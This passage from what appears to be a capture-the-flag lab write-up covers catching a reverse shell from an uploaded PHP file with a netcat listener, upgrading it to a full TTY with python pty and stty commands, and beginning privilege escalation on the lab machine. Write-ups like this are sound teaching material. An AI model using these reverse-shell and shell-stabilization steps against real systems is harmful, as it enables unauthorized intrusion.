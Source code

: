 Establish a reverse shell by setting up a netcat listener to your attacking machine and  use the port you specified in the php file you have uploaded

```
nc -lnvp 1234
```

![Desktop View](/assets/images/startup/we-are-in.png){: width="972" height="589" }

Since we were able to obtain a foothold through reverse shell, we do not have a full TTY and will require a terminal upgrade. Hence,  we need to stabilize the dumb shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

**Ctrl + Z [Background Process]**
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
Credits to [S1REN](https://sirensecurity.io/blog/break-out-get-that-tty/)


> Do not forget to find the secret spicy soup recipe
{: .prompt-danger }


## **Privilege Escalation**
---

### **Part 1**
I initially check `sudo -l` command to list the permissions granted to the current user in the sudoers file. Unfortunately, it requires us to give a password.

Interestingly, there is an odd directory that contains pcap file.

![Desktop View](/assets/images/startup/pcap.png){: width="972" height="589" }
